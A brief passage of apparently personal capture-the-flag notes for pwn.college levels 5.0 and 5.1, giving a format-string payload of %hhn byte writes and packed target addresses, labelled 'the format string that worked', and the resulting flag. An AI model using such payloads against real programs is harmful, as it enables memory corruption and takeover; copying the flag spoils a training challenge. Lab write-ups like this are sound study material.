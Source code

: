 5.0

`%13c%30$hhn.%37c%31$hhn.%5c%32$hhn.%4c%33$hhn.%10c%34$hhn.%17c%35$hhn%c%36$hhn%53c%37$hhnZZZZZZZZZZZZZ\x02\x41\x40\x00\x00\x00\x00\x00\x04\x41\x40\x00\x00\x00\x00\x00\x00\x41\x40\x00\x00\x00\x00\x00\x03\x41\x40\x00\x00\x00\x00\x00\x05\x41\x40\x00\x00\x00\x00\x00\x07\x41\x40\x00\x00\x00\x00\x00\x01\x41\x40\x00\x00\x00\x00\x00\x06\x41\x40\x00\x00\x00\x00\x00`

This is the format string that worked

The flag 

	pwn.college{04Yq0pR-XpdgLCVvS2CiSpNOGFv.dRjM0MDL5kzM1czW}


5.1


